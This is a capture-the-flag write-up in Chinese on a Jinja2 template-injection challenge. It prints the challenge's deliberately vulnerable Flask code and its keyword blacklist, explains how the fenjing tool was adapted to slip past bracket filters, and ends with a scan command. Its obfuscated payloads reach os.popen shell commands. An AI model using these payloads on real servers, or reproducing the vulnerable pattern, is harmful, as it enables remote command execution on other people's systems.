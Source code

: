 # 源码
collapsed:: true
	- 稍微修改了一点
	- ```python
	  @app.route('/secr3ttt', methods=['GET', 'POST'])
	  def secr3t():
	  
	      name = request.args.get('klf', '')
	      template = f'''
	         <html>
	             <body>
	                 <h1>找到secr3t了，但是找不到flag你还是个klf</h1>
	                 <h1>%s</h1>         
	             </body>
	         </html>
	         <img src=\"https://image-obsidian-1317327960.cos.ap-chengdu.myqcloud.com/obisidian-blog/8.jpg\" alt="g">
	         <!--klf?-->
	         <!-- klf还想要flag？没那么容易 -->
	  
	         '''
	      bl = ['_', '\\', '\'', '"', 'request', "+", 'class', 'init', 'arg', 'config', 'app', 'self', 'cd', 'chr',
	            'request', 'url', 'builtins', 'globals', 'base', 'pop', 'import', 'popen', 'getitem', 'subclasses', '/',
	            'flashed', 'os', 'open', 'read', 'count', '*', '43', '45', '38', '124', '47', '59', '99', '100', 'cat', '~',
	            ':', 'not', '0', 'length', 'index', '-', 'ord', '37', '94', '96', '48', '49', '50', '51', '52', '53', '54',
	            '55', '56', '57',
	            '58', '59', '[', ']', '@', '^', '#']
	      for i in bl:
	          if i in name:
	              return str('klf.html')
	              #return "真是klf！！！回去多学学啦"
	  
	      two_bracket_pattern = r"\s*\)\s*\)"
	      two_bracket_match = re.search(two_bracket_pattern, name)
	      bracket_comma_bracket_pattern = r"\s*\)\s*(,)?\s*\)"
	      bracket_comma_bracket_match = re.search(bracket_comma_bracket_pattern, name)
	      bracket_bracket_line_pattern = r"\s*\)\s*\)\s*\|"
	      bracket_bracket_line_match = re.search(bracket_bracket_line_pattern, name)
	      comma_bracket_bracket_line_pattern = r"\s*,\s*\)\s*\)\s*\|"
	      comma_bracket_bracket_line_match = re.search(comma_bracket_bracket_line_pattern, name)
	  
	      pattern_mo = r"\d+\s*%\s*\d+|[a-zA-Z]+\s*%\s*[a-zA-Z]+"
	      matche_mo = re.search(pattern_mo, name)
	  
	      if two_bracket_match:
	          if bracket_comma_bracket_match.group(1):
	              print("bracket_comma_bracket_match: " + name)
	              return str('klf.html')
	          elif comma_bracket_bracket_line_match:
	              print("comma_bracket_bracket_line_match: " + name)
	              return str('klf.html')
	          elif bracket_bracket_line_match:
	              print("bracket_bracket_line_match: " + name)
	              return render_template_string(template % name)
	          else:
	              print("two_bracket_match: " + name)
	              return str('klf.html')
	  
	      # 输出匹配的结果
	      if matche_mo :
	          print("match_mo: " + name)
	          return str('klf.html')
	  
	  
	      a=render_template_string(template % name)
	      print("passed: " + name)
	      if "{" in a:
	          return a + str('win.html')
	      return  a
	  ```
- # 分析
	- WAF可以分成三部分：keyword检测WAF、针对`))`的规则WAF、针对`%`的特殊waf
		- `))`特殊waf：在匹配到`))`之后做检测：
			- 匹配到`),)`：ban
			- 匹配到`,))|`：ban
			- 匹配到`))|`：通过
				- 总感觉这是给新版焚靖开的绿灯。。。
			- 否则ban
		- `%`的特殊waf
			- ban了`数字%数字`和`关键字%关键字`两种payload
	- 焚靖会在生成一列数字后通过filter求和，也会在生成一系列字符后通过filter拼接，此时旧版焚靖会在生成时加上多余的逗号，被上方的waf检测。
	- 焚靖生成payload时需要使用大量的嵌套递归生成payload, 这不可避免地会生成很多括号，此时旧版会被上方的waf检测到
- # 绕过
	- 和[[CTFWEB/WP/klf_2的SSTI自动化绕过]]重复的就不介绍了，主要就是多了双层括号的检测
	- 实际上旧版焚靖对waf有以下假设：
		- waf是幂等的，所以我们可以自动化waf检测
		- waf是简单的关键字检测，没有对长度等其他特征进行检测，所以我们可以通过不断嵌套表达式构造payload
		- waf没有对括号进行判断，所以我们可以在表达式中随意加括号，不需要处理运算优先级
		- 将可以通过waf的表达式A拼接到可以通过waf的字符串B中，形成的表达式C也可以通过WAF，所以我们可以在生成一个子表达式后随意使用
	- 但是在焚靖推出后，上述假设逐渐消解：
		- 有题目使用了随机化的waf，随机选取黑名单关键字
		- 有题目检测payload长度，禁止使用过长的payload
		- 有题目（比如这题）过滤了括号
		- 有题目（就这题）开始检测特殊的嵌套表达式
	- 多层括号
		- 新版(~~大概会是`v0.5.10`~~`v0.6.0`)使用了`(1,2,3)|sum`的形式求任意整数，使用`))|join`拼接字符串，刚好可以绕过上方的waf，但还是需要避免出现多层括号。。。
		- 避免需要多层括号需要计算优先级，计算优先级需要重写几乎所有生成表达式的规则
		- 之前就想做这个功能了，如果不是这道题我可能永远都不会去写。。。
		- 计算完优先级就可以计算出哪里需要加上括号，哪里不需要，然后把多余的括号去除掉，效果如下：
			- 旧：
				- ```jinja2
				  {{(((((lipsum|attr((lipsum|escape|batch(22)|list|first|last)*2+'globals'+(lipsum|escape|batch(22)|list|first|last)*2))|attr((lipsum|escape|batch(22)|list|first|last)*2+'getitem'+(lipsum|escape|batch(22)|list|first|last)*2))((lipsum|escape|batch(22)|list|first|last)*2+'builtins'+(lipsum|escape|batch(22)|list|first|last)*2)|attr((lipsum|escape|batch(22)|list|first|last)*2+'getitem'+(lipsum|escape|batch(22)|list|first|last)*2))((lipsum|escape|batch(22)|list|first|last)*2+'import'+(lipsum|escape|batch(22)|list|first|last)*2)('os').popen('ls ')).read())}}
				  ```
			- 新：
				- ```jinja2
				  {{lipsum|attr(lipsum|escape|batch(22)|list|first|last*2+'globals'+lipsum|escape|batch(22)|list|first|last*2)|attr(lipsum|escape|batch(22)|list|first|last*2+'getitem'+lipsum|escape|batch(22)|list|first|last*2)(lipsum|escape|batch(22)|list|first|last*2+'builtins'+lipsum|escape|batch(22)|list|first|last*2)|attr(lipsum|escape|batch(22)|list|first|last*2+'getitem'+lipsum|escape|batch(22)|list|first|last*2)(lipsum|escape|batch(22)|list|first|last*2+'import'+lipsum|escape|batch(22)|list|first|last*2)('os').popen('ls ').read()}}
				  ```
		- 然后函数调用之类的地方也有可能因为内层表达式带有括号而导致双括号，在末尾加上逗号即可。最后即使强过滤`))`也可以自动解出：
			- ```jinja2
			  {%set prrc=((dict(dict(dict(a=1)|tojson|batch(2))|batch(2))|join,(dict(c=x)|join),dict()|trim|last)|join).format(((9,9,9,1,9)|sum))%}
			  {{lipsum
			  |attr(x|center(11)|replace(x|center|first,(prrc,joiner|string|batch(2)|first|last)|join)%(95,95,(39,39,25)|sum,(35,35,35,3)|sum,111,98,97,(35,35,35,3)|sum,115,95,95),)
			  |attr(x|center(11)|replace(x|center|first,(prrc,joiner|string|batch(2)|first|last)|join)%(95,95,(39,39,25)|sum,(39,39,23)|sum,116,(39,39,27)|sum,116,(39,39,23)|sum,(39,39,31)|sum,95,95),)(x|center(12)|replace(x|center|first,(prrc,joiner|string|batch(2)|first|last)|join)%(95,95,98,117,(39,39,27)|sum,(35,35,35,3)|sum,116,(39,39,27)|sum,(39,39,32)|sum,115,95,95),)
			  |attr(x|center(11)|replace(x|center|first,(prrc,joiner|string|batch(2)|first|last)|join)%(95,95,(39,39,25)|sum,(39,39,23)|sum,116,(39,39,27)|sum,116,(39,39,23)|sum,(39,39,31)|sum,95,95),)(x|center((9,1)|sum)|replace(x|center|first,(prrc,joiner|string|batch(2)|first|last)|join)%(95,95,(39,39,27)|sum,(39,39,31)|sum,112,111,114,116,95,95),)(x|center(2)|replace(x|center|first,(prrc,joiner|string|batch(2)|first|last)|join)%(111,115),)
			  |attr(x|center(5)|replace(x|center|first,(prrc,joiner|string|batch(2)|first|last)|join)%(112,111,112,(39,39,23)|sum,(39,39,32)|sum),)(x|center(4)|replace(x|center|first,(prrc,joiner|string|batch(2)|first|last)|join)%((35,35,35,3)|sum,115,32,(39,8)|sum),)
			  |attr(x|center(4)|replace(x|center|first,(prrc,joiner|string|batch(2)|first|last)|join)%(114,(39,39,23)|sum,97,(39,39,22)|sum),)()}}
			  ```
	- 改进完直接梭就是了：`python -m fenjing scan --url 'https://jmbk4t72kryptmvbndz5vdoxc.node.game.sycsec.com/secr3ttt' --detect-mode fast`
	- 目前对比旧版，新版焚靖主要改进了几点：
		- 增加了基础的优先级检测
		- 增加了一系列生成数字的规则
		- 针对双括号进行了规避，增加相关规则
		- 改进scan功能、检测长payload是否被waf之类一系列的常规优化
- # 一点碎碎念
	- 焚靖的出现就是为了自动化解决常规Jinja SSTI题目，从而倒逼（如果可能的话..）各大比赛推出更加复杂且有趣的赛题。如果说长度检测和随机化waf还算有趣的话，那这题就是无聊到顶点的常规SSTI
	- 而且作为开源工具，焚靖本身必然会被出题人针对，也就是说焚靖不仅需要解决已经存在的赛题，还需要“解决”不存在的赛题。所以要尽量隐藏焚靖的特征，让焚靖的payload更像手工书写的payload, 避免其特征被出题人利用，写出针对性waf。